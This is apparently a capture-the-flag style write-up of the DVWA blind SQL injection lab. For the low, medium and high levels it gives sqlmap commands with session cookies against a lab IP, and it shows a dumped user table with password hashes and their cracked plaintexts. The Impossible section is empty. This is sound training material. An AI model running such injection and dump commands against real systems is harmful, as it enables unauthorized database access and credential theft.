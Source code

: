 # Difficulty - Low

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection%20Blind/Sources/low.php)


I used sqlmap to get all the information that I need.

`sqlmap -u "http://10.10.27.242/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" -H 'Cookie: PHPSESSID=l716o139mqnh62cmetg0o654e7; security=low'` ->  initial scan

`sqlmap -u "http://10.10.27.242/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" -H 'Cookie: PHPSESSID=l716o139mqnh62cmetg0o654e7; security=low' --tables` -> see the database tables

And whatever we need like :
`sqlmap -u "http://10.10.27.242/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" -H 'Cookie: PHPSESSID=l716o139mqnh62cmetg0o654e7; security=low' --dump dvwa`

Response:
```
+---------+---------+-----------------------------+-----------+---------------------------------------------+------------+---------------------+--------------+
| user_id | user    | avatar                      | last_name | password                                    | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+-----------+---------------------------------------------+------------+---------------------+--------------+
| 3       | 1337    | /hackable/users/1337.jpg    | Me        | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Hack       | 2018-10-03 22:09:36 | 0            |
| 1       | admin   | /hackable/users/admin.jpg   | admin     | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin      | 2018-10-03 22:09:36 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | Brown     | e99a18c428cb38d5f260853678922e03 (abc123)   | Gordon     | 2018-10-03 22:09:36 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | Picasso   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Pablo      | 2018-10-03 22:09:36 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | Smith     | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Bob        | 2018-10-03 22:09:36 | 0            |
+---------+---------+-----------------------------+-----------+---------------------------------------------+------------+---------------------+--------------+
```


# Difficulty - Medium

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection%20Blind/Sources/medium.php)

This time is a POST request. So the command will be:

`sqlmap -u "http://10.10.27.242/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" -H 'Cookie: PHPSESSID=l716o139mqnh62cmetg0o654e7; security=medium' -X POST --data='id=1&Submit=Submit'`


# Difficulty - High

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection%20Blind/Sources/high.php)



`sqlmap -u 'http://10.10.27.242/vulnerabilities/sqli_blind/' --cookie='id=1; PHPSESSID=l716o139mqnh62cmetg0o654e7; security=high' -X GET -p id --level 2 `

`--level 2` -> force SQLi in headers.

`[INFO] Cookie parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable `


# Difficulty - Impossible

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/SQL%20Injection%20Blind/Sources/impossible.php)
